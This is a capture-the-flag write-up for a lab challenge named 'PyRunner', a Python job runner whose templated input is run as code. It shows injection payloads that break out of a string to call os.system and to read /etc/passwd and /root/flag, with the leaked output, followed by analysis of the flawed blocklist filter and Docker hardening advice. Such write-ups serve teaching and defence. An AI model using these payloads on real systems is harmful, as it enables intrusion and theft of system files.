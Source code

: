 # PyRunner

### Description

Can you help us test our internal Python job runner prototype?

# Solution

## 1. Injection

Hmm Templating of the title, I wonder what I can inject in it

<!--![[Web/PyRunner/1.png]]-->
![1.png](1.png)

## 2. Inject Code - Read File

Lets try OS command injection

```
START");import os;os.system("ls");print("END
```

Oh some replacing is done. Especially on semicolons and `os`

Output

```python
  File "/app/scripts/388177.py", line 11
    print("Webserver: START") .system("ls")print("END")
                                           ^^^^^
SyntaxError: invalid syntax
```


Trying another payload

```
START" + open("/etc/passwd").read() + "END
```

Output - And with this I have achieved arbituary file read


```
Webserver: STARTroot:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www:x:1000:1000:1000:/home/www:/bin/sh
END
Hello!
```

## 3. Retrieving Flag

Lets check the Dockerfile again

```dockerfile
FROM python:3.10.8-alpine3.16

RUN adduser -D -u 1000 -g 1000 -s /bin/sh www

RUN apk add --update --no-cache gcc musl-dev

WORKDIR /app
COPY app /app

COPY flag /root/flag

COPY config/readflag.c /
RUN gcc -o /readflag /readflag.c && chmod 4755 /readflag && rm /readflag.c

RUN pip install -r requirements.txt

CMD ["python3", "app.py"]
```

Need to run the `/readflag` binary? Just kidding. Just read `/root/flag directly`

```python
START" + open("/root/flag").read() + "END
```

<!--![[Web/PyRunner/2.png]]-->
![](2.png)

<!--![[Web/PyRunner/3.png]]-->
![](3.png)


## 4. Where this wont work

**Injection**

I didn't really read the code while doing this challenge, but here's the vulnerable code

```python
@app.post('/run-template')
async def run_template(request: Request):
    data = await request.json()
    template = scripts[data['template']]
    with open(f'scripts/{template["file"]}', 'r') as file:
        contents = file.read()
        print(data)
        for argument in template['arguments']:
            contents = contents.replace(f'<{argument}>', textfilter(data['arguments'][argument]))
        filename = f'{random.randint(100000, 999999)}.py'
        with open(f'scripts/{filename}', 'w') as newfile:
            newfile.write(contents)
        output = subprocess.run(['python', f'scripts/{filename}'], capture_output=True, text=True)
        # check if output has error
        if output.stderr:
            return JSONResponse({'output': output.stderr})
        return JSONResponse({'output': output.stdout})  
```

Either way these lines are dangerous, as user input is templated into running code with filter.

```python
data = await request.json()
template = scripts[data['template']]
...
for argument in template['arguments']:
	contents = contents.replace(f'<{argument}>', textfilter(data['arguments'][argument]))
	filename = f'{random.randint(100000, 999999)}.py'
	with open(f'scripts/{filename}', 'w') as newfile:
		newfile.write(contents)
	output = subprocess.run(['python', f'scripts/{filename}'], capture_output=True, text=True)
```

But the filter is not good enough. It doesn't disallow the escape characters `"` which are arguably the most important. Either way a blacklist is not a good idea, as there may be new ways to bypass it, so this should be changed to a whitelist whenever possible.

```python
disallowed = ["import", ";", "\n", "eval", "exec", "os"]
...
def textfilter(text):
    for i in disallowed:
        if i in text:
            text = text.replace(i, "")
    return text
```

**File Read**

This wont work if the `/root/flag` text file has its permissions properly set to prevent read. This could be done by adding a `chmod` command to the Dockerfile

```
RUN chmod 700 /root/flag # Read, Run Execute by owner
```

More importantly, the Docker container user should also have their permissions set properly (eg. setting something to not root, something I didn't see in the docker file). 

As the Docker container user wasn't set, the code probably ran as root, which means it probably could read any file. We could add something like this to the Dockerfile to prevent this from happening [\*](https://docs.docker.com/engine/reference/builder/#user)

```dockerfile
...
# Setup default user, when enter docker container  
USER www # ${UID}:${GID}
CMD ["python3", "app.py"]
```

However, in this case, the file read worked, so alls good

## Intended Solution

The intended solution, looking at the flag, is indeed Remote Command Execution (RCE). There's a good writeup about using the Python MRO to retrieve a function and allow for RCE [here](https://jh123x.com/blog/2022/stf2022-pyrunner/)

# Flag

`STF22{4ut0m4t3d_c0mm4nd_1nj3ct10n}`
 
Ooh nice I'm the top 5th solver

<!--![[score.png]]-->
![](score.png)
